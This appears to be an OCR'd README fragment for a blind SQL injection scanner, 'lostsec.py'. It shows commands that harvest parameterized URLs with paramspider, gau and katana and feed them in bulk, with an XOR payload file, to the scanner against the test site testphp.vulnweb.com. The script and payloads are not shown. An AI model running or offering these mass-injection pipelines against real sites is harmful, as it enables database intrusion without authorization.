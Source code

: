 Blind SQLi script

for single url:

python3 lostsec.py -u "http://testphp.vulnweb.com/artists.php?artist="  -p payloads/xor.txt -t 5

for multiple urls:

paramspider -d testphp.vulnweb.com -s >> urls.txt

cat urls.txt | sed 's/FUZZ//g' >> final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | gau --mc 200 | urldedupe >urls.txt

cat urls.txt | grep -E "\.php|\.asp|\.aspx|\.cfm|\.jsp" | grep '=' | sort > output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt

katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
